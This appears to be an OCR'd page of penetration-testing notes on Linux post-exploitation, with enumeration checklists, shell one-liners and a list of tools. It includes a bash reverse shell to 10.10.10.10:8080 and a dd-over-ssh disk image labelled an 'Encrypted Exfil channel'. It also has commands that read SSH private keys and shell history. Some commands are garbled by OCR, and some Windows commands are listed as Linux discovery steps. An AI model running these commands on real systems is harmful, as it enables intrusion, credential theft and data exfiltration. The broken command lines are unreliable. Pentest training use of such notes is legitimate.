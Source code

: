 # Linux Post Exploitation Discovery

## Description

## Techniques

## Resources

* Identify current user ID and privileges
* Identify network connections (for lateral movement)
* Identify Running processes
* Identify Chron jobs/scheduled tasks
* Identify if Active Directory environment then identify users/groups/computers if in cloud or on-prem
* If not AD, then find applications, firewalls, AV

whoami /priv
netstat -na | findstr "ESTABLISHED" or "WAITING"
arp -a
systeminfo | findstr "Domain"

* <https://github.com/Arr0way/linux-local-enumeration-script>

# Linux Exploits

## Commands

Redirect IPv6 listening TCP port to
localhost IPv4.
```shell
IPV6ADDR=fc00:660:0:1::46
&& PORT=110 && socat
TCP-LISTEN:$PORT,reuseaddr,
fork TCP6:[$IPV6ADDR]:$POR
```

Find Juicy Stuff in the File System
```shell
 find /PATH/TO/DIRECTORY
-name "FILE-FILTER" -type
f -exec grep -i "STRING"
{} \; -print 2>/dev/null
```

Find public ip
```shell
curl -4 icanhazip.com
```

Make output easier to read
```shell
alias ccat='pygmentize
-O bg=dark,style=colorful'
```

Encrypted Exfil channel
```shell
dd if=/dev/rdisk0s1s2
bs=65536 conv=noerror,sync
| ssh -C user@10.10.10.10
"cat >/tmp/image.dd"
```

Check service every second
```shell
while (true); do nc -vv
-z -w3 10.10.10.10 80 >
/dev/null && echo -e
"Service is up"; sleep 1;
done
```

Website Cloner
```shell
wget -r -nH $URL
```

Type “gah” after you forgot to use sudo, and it’ll sudo your most recent command.
```shell
alias gah='sudo $(history
-p \!\!)'
```

Create a reverse shell back to a
given IP address and port.

```shell
bash -i >&
/dev/tcp/10.10.10.10/8080
0>&1
```

Encode or decode base64
information.
```shell
echo 'Hello, World!' |
base64

echo
'SGVsbG8sIFdvcmxkIQo=' |
base64 -d
```

## Helpful Commands

```shell
cat ~/.bash_history
cat ~/.ssh/config
cat ~/.ssh/id_rsa
cat ~/.ssh/known_hosts
```

## Linux Post Exploitation Tools

* BusyBox
* NMAP
* Responder.py
* tcpdump 
* http://www.monkey.org/~dugsong/dsniff/
* http://www.dest-unreach.org/socat/
* https://www.gnu.org/software/screen/
* http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
* http://tgcd.sourceforge.net/

## Resources
* [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)